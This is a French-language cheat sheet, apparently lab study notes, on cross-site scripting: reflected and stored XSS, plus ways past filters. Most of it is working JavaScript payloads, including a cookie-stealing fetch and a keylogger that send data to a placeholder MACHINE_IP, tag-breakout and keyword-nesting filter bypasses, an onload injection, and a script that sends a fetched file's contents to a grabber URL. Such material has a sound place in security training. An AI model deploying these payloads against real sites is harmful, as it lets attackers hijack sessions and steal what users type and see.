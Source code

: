 Les failles XSS sont des **failles** qui se passe **côté client**, elles consistent à éxécuter des **scripts javascript** sur la page d'une victime.

## __Payload__

Télécharger l'extension [Hack tool](https://github.com/LasCC/Hack-Tools) pour disposer de plusieurs payload à utiliser facilement.
### Proof Of Concept

```html
<script>alert("XSS");</script>
```

Ce code affichera "XSS" à l'écran si une faille XSS existe.
### Session Stealing

```html
<script>fetch('MACHINE_IP?cookie=' + btoa(document.cookie));</script>
```

Ce code enverra les cookies de la victime à l'adresse de la machine.
### Key Logger

```html
<script>document.onkeypress=function(e){fetch('http://MACHINE_IP/log?key='+btoa(e.key));}</script>
```

Ce code enverra, à chaque fois que la victime appuyera sur une touche, la valeur de la touche à l'adresse de la machine.
## __Reflected XSS__

Une reflected XSS est présente lorsque la page affiche une valeur passé en *paramètre dans l'URL*.
Example :

![[reflectedXss1.png]]

En remplaçant la valeur de *error* par un script, on peut obtenir ceci :

![[reflectedXss2.png]]

Voici un schéma qui illustre ce qui se passera quand nous enverrons ce lien à une victime :

![[reflectedXss3.png]]
## __Stored XSS__

Lorsqu'un script XSS est *stocké dans une base de donnée* on appelle cela une Stored XSS. Cela peut se produire lors de la création d'un compte, ou d'un poste sur un forum par example.
Cela aura pour action que lorsqu'un client accedera à cette page, cela chargera le script XSS et l'executera.
## __Perfecting the Payload__

### 1er cas

![[perfectingPayload1.1.png]]

![[perfectingPayload1.2.png]]

Dans ce scénario on peut bypass la balise \<**input**\> en écrivant:

```html
"><script>alert('XSS');</script>
```
Avec *">* on va **fermer** la balise \<**input**\> avant d'écrire notre script.

### 2e cas

Parfois le rendu de notre payload peut ressembler à ca :

![[perfectingPayload2.png]]

Le problème est dû au fait que le serveur à retiré le mot *script*, pour bypass cela il suffit d'écrire le mot clé autour du mot supprimé.

```html
<sscriptcript>alert("XSS");</sscriptcript>
```

Une fois le texte enlevé par le filtre le code ressemblera à ca :

```html
<script>alert("XSS");</script>
```

### 3e cas

Dans le cas ou nous voulions insérer un **payload à la place de l'url d'une image**, on pourrai se retrouver dans cette situation :

![[perfectingPayload3.1.png]]

Dans ce cas le code de bypass ressemblerai à ça :

```html
/images/cat.jpg" onload="alert('XSS');
```

![[perfectingPayload3.2.png]]

## __Usage__
You can use an XSS to fetch a page and get the content of it:
```js
<script>fetch('http://10.10.23.210:8080/flag.txt').then(r=>r.text()).then(t=>document.location='http://localhost/XSS/grabber.php?c='+t)</script>
```
